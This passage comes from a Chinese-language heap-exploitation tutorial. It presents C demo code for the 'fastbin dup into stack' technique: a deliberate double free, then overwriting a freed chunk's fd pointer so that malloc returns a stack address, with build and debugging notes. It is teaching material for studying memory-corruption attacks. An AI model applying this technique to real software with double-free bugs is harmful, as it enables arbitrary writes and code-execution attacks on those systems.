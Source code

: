  ```c
     fprintf(stderr, "free 掉 chunk a\n");
     free(a);
 
     fprintf(stderr, "如果还对 %p 进行 free, 程序会崩溃。因为 %p 现在是 fastbin 的第一个\n", a, a);
     // free(a);
     fprintf(stderr, "先对 b %p 进行 free\n", b);
     free(b);
 
     fprintf(stderr, "接下来就可以对 %p 再次进行 free 了, 现在已经不是它在 fastbin 的第一个了\n", a);
     free(a);
 
     fprintf(stderr, "现在 fastbin 的链表是 [ %p, %p, %p ] 接下来通过修改 %p 上的内容来进行攻击.\n", a, b, a, a);
     unsigned long long *d = malloc(8);
 
     fprintf(stderr, "第一次 malloc(8): %p\n", d);
     char* e = malloc(8);
     strcpy(e, "EEEEEEEE");
     fprintf(stderr, "第二次 malloc(8): %p\n", e);
     fprintf(stderr, "现在 fastbin 表中只剩 [ %p ] 了\n", a);
     fprintf(stderr, "接下来往 %p 栈上写一个假的 size，这样 malloc 会误以为那里有一个空闲的 chunk，从而申请到栈上去\n", a);
     stack_var = 0x20;
 
     fprintf(stderr, "现在覆盖 %p 前面的 8 字节，修改 fd 指针指向 stack_var 前面 0x20 的位置\n", a);
     *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
     
     char* f = malloc(8);
     strcpy(f, "FFFFFFFF");
     fprintf(stderr, "第三次 malloc(8): %p, 把栈地址放到 fastbin 链表中\n", f);
     char* g = malloc(8);
     strcpy(g, "GGGGGGGG");
     fprintf(stderr, "这一次 malloc(8) 就申请到了栈上去: %p\n", g);
 }
 ```

​    gcc -g fastbin_dup_into_stack.c -o fastbin_dup_into_stack

​    这个程序展示了怎样通过修改fd指针，将其指向一个伪造的free chunk，在伪造的地址处malloc出一个chunk。该程序大部分内容都和上一个程序一样，漏洞也同样是double-free，只有给 fd 填充的内容不一样。

​    三次malloc之后

 ![image-20211226155926302](/assets/wgpsec/images/heap/image-20211226155926302.png)

​    三次 free 之后，可以看到由于 double free 造成的循环的指针。

 ![image-20211226155932756](/assets/wgpsec/images/heap/image-20211226155932756.png)

​    这时候我们再去malloc两次，还剩一个指向chunk a的free chunk，而前面我们也申请到了指向它的 chunk d，可以通过它编辑chunk a的fd 指针，填充一个有意义的地址：栈地址减0x8（因为伪造的chunk要有个 size，size在&stack_var - 0x8的位置上）

​    `*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));`

   通过调试我们可以看到，地址为``0x603000``的``chunk``的``fd``指针指向的是栈上的地址，这样的话，malloc一次之后再次申请的时候就会申请到fd指针指向的0x7fffffffdac0
